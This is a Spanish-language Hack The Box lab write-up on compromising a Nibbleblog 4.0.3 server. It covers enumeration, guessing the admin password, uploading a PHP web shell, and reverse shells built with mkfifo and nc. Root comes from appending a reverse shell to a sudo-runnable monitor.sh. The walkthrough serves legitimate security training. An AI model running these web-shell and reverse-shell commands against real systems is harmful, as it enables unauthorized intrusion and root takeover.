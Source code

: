 # HTB - Explotación de Nibbleblog


---

## Fase I: Enumeración y acceso

### 0. Nota: Asegúrese de estar ejecutando sudo openvpn ARCHIVO_DE_VPN_DESCARGADO y usar IP tur0 de la VPN

### 1. Escaneo de puertos con Nmap

```bash
nmap -sV --open -oA Upload_php_initial_scan -n -Pn -sS -v 10.129.168.126
```

```bash
nmap -p22,80 -Pn -n -sS -v -sC -oA port_scan 10.129.168.126
```

### 2. Verificación de la web con cURL

```bash
curl http://10.129.168.126:80
```

Salida:

```html
<b>Hello world!</b>
<!-- /nibbleblog/ directory...! -->  
```

[### Encontramos directorio interesante ###]

### 3. Identificación de tecnologías con WhatWeb

```bash
whatweb http://10.129.168.126:80/nibbleblog
```

### 4. Extracción de configuraciones con cURL

```bash
curl http://10.129.168.126/nibbleblog/content/private/config.xml | xmllint --format -
```

Salida:

```xml
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
```

### 5. Enumeración de directorios con Gobuster

```bash
gobuster dir -u http://10.129.168.126:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 30
```

```bash
gobuster dir -u http://10.129.168.126/nibbleblog/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```

Resultados relevantes:

```
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [--> http://10.129.168.126/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [--> http://10.129.168.126/nibbleblog/content/]
```

### 6. Lectura del README

```bash
curl http://10.129.168.126/nibbleblog/README
```

Salida:

```
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

### 7. Prueba de credenciales

```plaintext
Usuario: admin
Contraseña: nibb...  (vemos que se repite dos veces en el encaezado, por lo que deducimos que se puede probar)
```

Accedemos con éxito a la administración de Nibbleblog.

### 8. Subida de una Web Shell

**Creamos un archivo PHP malicioso:**

```bash
nvim shell.php
```

Contenido:

```php
<?php system('id'); ?>
```

Subimos el archivo a la administración de Nibbleblog y verificamos ejecución:

```bash
curl http://10.129.168.126/nibbleblog/content/private/plugins/my_image/image.php
```

Salida:

```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

### 9. Obtención de Shell Reversa

**Creamos un archivo PHP con una Reverse Shell:**

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.X 1234 >/tmp/f"); ?>
```

**Abrimos un listener en el atacante (AT):**

```bash
nc -lvnp 1234
```

**Ejecutamos la shell remota:**

```bash
curl http://10.129.168.126/nibbleblog/content/private/plugins/my_image/image.php
```

Obtenemos una shell interactiva:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 10. Extracción de archivos comprimidos

```bash
gzip -d personal.zip
```

### 11. Obtención de la flag de usuario

```bash
cat /home/nibbler/flag.txt
```

Salida:

```
79c03865431abf47b90ef24......
```

## Fase II: Escalada de privilegios

### Opción 1: Uso de `LinEnum`

#### 1. Transferir y ejecutar `LinEnum.sh`
En la máquina atacante:
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python3 -m http.server 1234
```
En la máquina víctima:
```bash
wget http://10.10.10.X:1234/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
Analizamos la salida y encontramos permisos sobre `monitor.sh`.

#### 2. Manipulación del script `monitor.sh`
Insertamos código de shell reversa:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.X 1235 >/tmp/f' | tee -a monitor.sh
```

#### 3. Escuchar conexión en la máquina atacante
```bash
nc -lvnp 1235
```

#### 4. Ejecutar el script con privilegios
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```
Obtendremos acceso como `root`. Buscamos la flag:
```bash
cat /root/flag_root.txt
```
Flag:
```
de5e5d6619862a8aa5b9b2.......
```
### Opción 2: Abuso de permisos `sudo`

#### 1. Verificar permisos con `sudo -l`
```bash
sudo -l
```
Salida esperada:
```
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

#### 2. Insertar código de shell reversa en `monitor.sh`
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.X 1235 >/tmp/f' | tee -a monitor.sh
```

#### 3. Escuchar conexión en la máquina atacante
```bash
nc -lvnp 1235
```

#### 4. Ejecutar el script como `root`
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```
Obtendremos acceso como `root`. Buscamos la flag:
```bash
cat /root/flag_root.txt
```
Flag:
```
de5e5d6619862a8aa5b9b21......
```
---

### Notas finales

Este ejercicio de HTB nos ha permitido practicar:

- Enumeración de servicios y directorios.
- Explotación de un panel de administración vulnerable.
- Carga de una Web Shell para ejecución remota de comandos.
- Obtención de una Reverse Shell interactiva.
- Escalada de privilegios a root mediante un script con permisos de sudo.
- Esta explicación es una simplificación de la más extendida, y maravillosa, que se encuentra en: https://academy.hackthebox.com/module/details/77

---


